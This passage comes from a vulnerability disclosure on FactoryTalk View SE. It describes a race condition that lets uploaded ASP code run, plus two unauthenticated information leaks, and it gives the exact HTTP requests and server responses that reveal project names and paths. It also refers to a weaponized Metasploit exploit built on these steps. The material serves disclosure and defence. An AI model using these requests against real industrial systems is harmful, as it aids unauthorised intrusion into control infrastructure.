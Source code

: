 


## Vulnerability 3: Race Condition

As described previously, `<FILENAME>` is only written and accessed for less than one second, and then immediately deleted. In order to be able to execute the ASP code, the file will need to be accessed as soon as it is written.

This is a classical race condition vulnerability, and exploitation will be explained in the next section.




## Bonus vulnerabilities #4 and #5: Information Leak on *GetHMIProjects* and *GetHMIProjectPaths*

In order to achieve reliable exploitation, it is necessary to know `<PROJECT_NAME>` and its path on the FactoryTalk server. These steps are not necessary for a demonstration proof of concept, but a real weaponized exploit would certainly need them (and our Metasploit exploits implements it).

An unauthenticated attacker can obtain the list of projects by sending the following HTTP GET request to FactoryTalk:

```
http://<TARGET>/rsviewse/hmi_isapi.dll?GetHMIProjects
```
> Snippet 7: *GetHMIProjects* request



FactoryTalk will then respond with:

```
<?xml version="1.0"?>
<!--Generated (Sat Jan 18 04:49:31 2020) by RSView ISAPI Server, Version 11.00.00.230, on Computer: EWS-->
<HMIProjects>
    <HMIProject Name="FTViewDemo_HMI" IsWatcom="0" IsWow64="1" />
</HMIProjects>
```
> Snippet 8: *GetHMIProjects* response



The project name is clearly visible in the XML, and after it is extracted it can then be used in a subsequent request that will show the project's path:

```
http://<TARGET>/rsviewse/hmi_isapi.dll?GetHMIProjectPath&<PROJECT_NAME>
```
> Snippet 9: *GetHMIProjectPath* request



The response will contain the full path of the project:

```
C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\FTViewDemo_HMI
```
> Snippet 10: *GetHMIProjectPath* response
